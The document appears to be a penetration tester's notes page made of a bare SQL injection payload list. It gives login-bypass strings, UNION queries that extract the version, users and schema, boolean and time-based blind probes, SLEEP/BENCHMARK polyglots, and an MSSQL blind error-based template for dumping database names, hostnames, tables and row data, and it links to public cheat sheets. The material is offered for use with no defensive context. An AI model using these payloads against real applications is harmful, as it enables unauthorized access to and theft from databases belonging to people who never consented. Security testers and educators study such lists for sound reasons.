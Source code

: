    ") or ("a"="a
    ') or ('a'='a and hi") or ("a"="a
    ' or 'one'='one
    ' or 'one'='one–
    ' or uid like '%
    ' or uname like '%
    ' or userid like '%
    ' or user like '%
    ' or username like '%
    ' or 'x'='x
    ') or ('x'='x
    " or "x"="x
    ' OR 'x'='x'#;
    '=' 'or' and '=' 'or'
    ' UNION ALL SELECT 1, @@version;#
    ' UNION ALL SELECT system_user(),user();#
    ' UNION select table_schema,table_name FROM information_Schema.tables;#
    admin' and substring(password/text(),1,1)='7
    ' and substring(password/text(),1,1)='7
    ' or 1=1 limit 1 -- -+
    '="or'
    ' and 'x'='x
    admin' or 1=1;-- 
    ?id=1' order by 1 --+
    ?id=1' and "a"="a"--+
    ?id=1' and database()="securtiy"--+
    ?id=1' and substring(database(),1,1)="a"--+
    ?id=1' and sleep(2) and "a"="a"--+
    ?id=1' and sleep(2) and substring(database(),1,1)="a"--+
    '+||+1=1#
    ```
    

Polygot

```jsx
SLEEP(1) /*‘ or SLEEP(1) or ‘“ or SLEEP(1) or “*/
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

[SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

MSSQL Blind Injection

```jsx
Main query for Blind Error Based Injection: '%2bconvert(char,(SELECT IIF(SUBSTRING((***query_here***),1,1)='d',3,@@VERSION)))%2b
Queries inside to the main query:
-> select db_name() 
<- Returns current database name
-> select host_name() 
<- Returns hostname
-> select top 1 table_name from INFORMATION_SCHEMA.tables 
<- Returns the first table from Information Schema
-> select top 1 column_name from INFORMATION_SCHEMA.columns 
<- Returns the first column from Information Schema
-> select ***column_name*** from ***table_name*** ORDER BY ***column_name*** OFFSET 2 ROW FETCH FIRST 1 ROW ONLY 
<- Returns the data of the second row from selected column/table.
```
